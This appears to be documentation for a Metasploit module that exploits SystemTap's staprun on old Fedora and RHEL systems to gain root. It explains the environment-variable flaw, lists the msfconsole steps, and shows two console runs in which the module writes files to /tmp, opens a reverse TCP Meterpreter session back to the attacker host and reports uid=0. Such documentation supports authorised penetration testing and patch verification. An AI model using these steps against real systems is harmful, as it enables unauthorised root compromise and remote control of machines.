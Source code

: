 ## Description

  This module attempts to gain root privileges by exploiting a
  vulnerability in the `staprun` executable included with SystemTap
  version 1.3.

  The `staprun` executable does not clear environment variables prior to
  executing `modprobe`, allowing an arbitrary configuration file to be
  specified in the `MODPROBE_OPTIONS` environment variable, resulting
  in arbitrary command execution with root privileges.


## Vulnerable Application

  This module has been tested successfully on:

  * systemtap 1.2-1.fc13-i686 on Fedora 13 (i686)
  * systemtap 1.1-3.el5 on RHEL 5.5 (x64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/systemtap_modprobe_options_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **STAPRUN_PATH**

  Path to staprun executable (default: `/usr/bin/staprun`)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

### Red Hat Enterprise Linux 5.5 (x64)

  ```
  msf > use exploit/linux/local/systemtap_modprobe_options_priv_esc
  msf exploit(linux/local/systemtap_modprobe_options_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/systemtap_modprobe_options_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/systemtap_modprobe_options_priv_esc) > run
  
  [*] Started reverse TCP handler on 172.16.191.165:4444
  [+] /usr/bin/staprun is executable
  [+] /usr/bin/staprun is setuid
  [*] Writing '/tmp/.rX9IoM53YEb92' (207 bytes) ...
  [*] Writing '/tmp/.rX9IoM53YEb92.conf' (23 bytes) ...
  [*] Executing payload...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (985320 bytes) to 172.16.191.202
  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.202:52074) at 2019-04-18 12:50:56 -0400
  [+] Deleted /tmp/.rX9IoM53YEb92
  [+] Deleted /tmp/.rX9IoM53YEb92.conf
  ERROR: Unable to canonicalize path "/lib/modules/2.6.18-194.el5/systemtap/As5A2hFpvQ2L.ko": No such file or directory
  Retrying, after attempted removal of module As5A2hFpvQ2L (rc -1)
  ERROR: Unable to canonicalize path "/lib/modules/2.6.18-194.el5/systemtap/As5A2hFpvQ2L.ko": No such file or directory
  
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo 
  Computer     : localhost.localdomain
  OS           : Red Hat Enterprise Linux 5 (Linux 2.6.18-194.el5)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

### Fedora 13 (x86)

  ```
  msf > use exploit/linux/local/systemtap_modprobe_options_priv_esc
  msf exploit(linux/local/systemtap_modprobe_options_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/systemtap_modprobe_options_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/systemtap_modprobe_options_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444
  [+] /usr/bin/staprun is executable
  [+] /usr/bin/staprun is setuid
  [*] Writing '/tmp/.otCyN6cAa7aUo0v' (207 bytes) ...
  [*] Writing '/tmp/.otCyN6cAa7aUo0v.conf' (23 bytes) ...
  [*] Executing payload...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (985320 bytes) to 172.16.191.138
  ERROR: Unable to canonicalize path "/lib/modules/2.6.33.3-85.fc13.i686.PAE/systemtap/l0rDp93O8f.ko": No such file or directory
  Retrying, after attempted removal of module l0rDp93O8f (rc -1)
  ERROR: Unable to canonicalize path "/lib/modules/2.6.33.3-85.fc13.i686.PAE/systemtap/l0rDp93O8f.ko": No such file or directory
  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.138:33541) at 2019-04-19 07:26:46 -0400

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : fedora13.localdomain
  OS           : Fedora 13 (Linux 2.6.33.3-85.fc13.i686.PAE)
  Architecture : i686
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter >
  ```

